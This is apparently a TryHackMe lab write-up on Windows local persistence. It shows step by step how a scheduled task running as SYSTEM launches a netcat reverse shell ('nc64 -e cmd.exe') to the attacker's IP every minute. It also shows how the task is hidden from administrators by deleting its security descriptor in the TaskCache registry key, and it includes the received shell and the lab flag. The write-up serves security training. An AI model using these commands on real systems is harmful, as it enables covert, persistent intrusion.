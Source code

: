 # About This Module
Module link: https://tryhackme.com/room/windowslocalpersistence

**Please feel free to point out any errors that you may see in this writeup!**

This writeup was last updated: 07/08/2023

# Task Scheduler
1. Started this task's machine
2. `schtasks /create /sc <FREQUENCY TYPE> /mo <FREQUENCY> /tn <TASK NAME> /tr "<NETCAT LOCATION> -e cmd.exe <ATTACK MACHINE IP> <PORT NUMBER>" /ru <USER ACCOUND>` from the compromised Windows machine to create and run a new scheduled task that'll try creating a reverse shell by attempting to connect to a netcat listener on our attack machine at the specified port in a specified frequency 
```PowerShell
C:\Users\Administrator>schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe 10.10.39.232 9999" /ru SYSTEM
SUCCESS: The scheduled task "THM-TaskBackdoor" has successfully been created.
```
3. `schtasks /query /tn <TASK NAME>` from the compromised Windows machine to retrieve and display onto our terminal the details of the task that we just created to verify that our task is running as intended, which it was 
```PowerShell
C:\Users\Administrator>schtasks /query /tn THM-taskbackdoor

Folder: \
TaskName                                 Next Run Time          Status
======================================== ====================== ===============
THM-taskbackdoor                         7/7/2023 12:54:00 AM   Ready
```
4. `c:\tools\pstools\PsExec64.exe -s -i regedit` from the compromised Windows machine to run the Windows Registry Editor with elevated privileges and in the context of the SYSTEM account, which will allow us to delete our created task's Security Descriptor (**SD**) that's located in the **HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree** registry, which will end up making it invisble to any user in the system since deleting a task's SD is equivalent to disallowing all users' access to the scueduled task, including administrators
```PoweShell
C:\Users\Administrator>c:\tools\pstools\PsExec64.exe -s -i regedit

PsExec v2.34 - Execute processes remotely
Copyright (C) 2001-2021 Mark Russinovich
Sysinternals - www.sysinternals.com
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/PsExec64.exe%20-s%20-i%20regedit.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Registry%20Editor%20Delete%20HKLM%20SOFTWARE%20Microsoft%20Windows%20NT%20CurrentVersion%20Schedule%20TaskCache%20Tree.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Registry%20Editor%20After%20Delete%20HKLM%20SOFTWARE%20Microsoft%20Windows%20NT%20CurrentVersion%20Schedule%20TaskCache%20Tree.png)

5. `schtasks /query /tn <TASK NAME>` from the compromised Windows machine to retrieve and display onto our terminal the details of the task that we just created to see if it's now hidden after deleting its SD, which it was since our system couldn't find the task 
```PowerShell
C:\Users\Administrator>schtasks /query /tn THM-taskbackdoor
ERROR: The system cannot find the file specified.
```
6. `nc -lvnp <PORT NUMBER>` from our Linux attack machine to open up a netcat listener to listen for any inbound connections, which ended up receiving a reverse shell connection that was spawned in by the scheduled task we created on the compromised Windows machine
```Bash
root@ip-10-10-39-232:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from 10.10.61.182 49841 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
7. `C:\flags\flag9.exe` from our reverse shell to run the **flag9.exe** program, which ended up displaying this task's flag onto our terminal
```PowerShell
C:\Windows\system32>C:\flags\flag9.exe
C:\flags\flag9.exe
THM{JUST_A_MATTER_OF_TIME}
```

**TASK COMPLETED!**
